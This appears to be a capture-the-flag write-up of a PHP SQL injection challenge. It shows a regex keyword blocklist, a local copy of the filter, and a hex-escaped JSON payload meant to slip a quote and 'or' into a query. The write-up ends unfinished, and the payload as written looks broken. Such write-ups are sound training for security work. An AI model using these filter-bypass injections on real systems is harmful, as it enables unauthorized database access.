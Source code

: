 # My solution

We browse the webpage and we get a php error which is exposed due to an error. We can take a look at the source code.  
We see the server expects as to use a POST request. However data is not accessed using $\_POST but using the file_get_contents('php://input') which returnes the raw byte data of the POST payload. It is useful used when data is presented as a JSON data. Here there are more information: https://stackoverflow.com/questions/8893574/php-php-input-vs-post.   
In this application the raw byte retrieved from the POST payload are sanitizezd using preg_match_all and than decoded as JSON. The JSON object is then used as input for a SQL query that we suspect is vulnerable to injection.

```
<?php
// Your code here!

$s = '{"user":1}';
$obj = json_decode($s);

var_dump($obj->user);
?>
```
This returns 1, so the json variable we'll use is 'user'.  
We copy the pattern of the preg_match_all in a local editor and we resolve it. In this way we can cleary see what is the pattern used for the sanitization. Namely
```
/[\(\*\<\=\>\|'&\-@]|select|and|or|if|by|from|where|as|is|in|not|having/i
```
This is an easy online resource to debug the regular expression: https://regex101.com/. It comes handy in this situation.  
The final /i stands for case insensitive match, thus using OR will not be allowed.  
Special characters that we cannot use are:
```
(
*
<
=
>
|
'
&
-
@
```

Let's see what we can escape

We reproduce the script in locale
```
<?php
// Your code here!
class db {
    public function waf($s) {
        if (preg_match_all('/'. implode('|', array(
            '[' . preg_quote("(*<=>|'&-@") . ']',
            'select', 'and', 'or', 'if', 'by', 'from', 
            'where', 'as', 'is', 'in', 'not', 'having'
        )) . '/i', $s, $matches)) die(var_dump($matches[0]));
        return json_decode($s);
    }

    public function query($sql) {
        $args = func_get_args();
        unset($args[0]);
        echo "VSPRINTF\n";
        var_dump(vsprintf($sql, $args));
    }
}

$db = new db();

$input = '{"user": \x27\x6F\x72\x20\x27\x31\x27\x3D}';


$obj = $db->waf($input);
echo "OBJ\n";
var_dump($obj);
$db->query("SELECT note FROM notes WHERE assignee = '%s'", $obj->user);
 

?>
```

Try with sqlmap !
